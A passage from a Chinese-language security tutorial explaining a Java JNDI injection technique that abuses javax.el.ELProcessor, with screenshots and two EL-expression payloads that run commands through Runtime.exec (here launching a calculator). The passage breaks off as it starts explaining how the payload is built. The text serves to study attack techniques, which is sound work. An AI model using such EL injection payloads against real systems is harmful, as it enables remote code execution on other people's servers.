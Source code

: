 ![image-20221126141324030](img/image-20221126141324030.png)



我们利用`javax.el.ELProcessor`类实现一个eval方法

![image-20221126141805050](img/image-20221126141805050.png)

同时恶意代码为EL表达式实现一个RCE的代码

```
''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")

''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('calc.exe')
```

再来分析下payload怎么构造的？

在之前的JNDI中，我们需要就是一个通过`ReferenceWrapper_Stub`获取到的`ResourceRef`
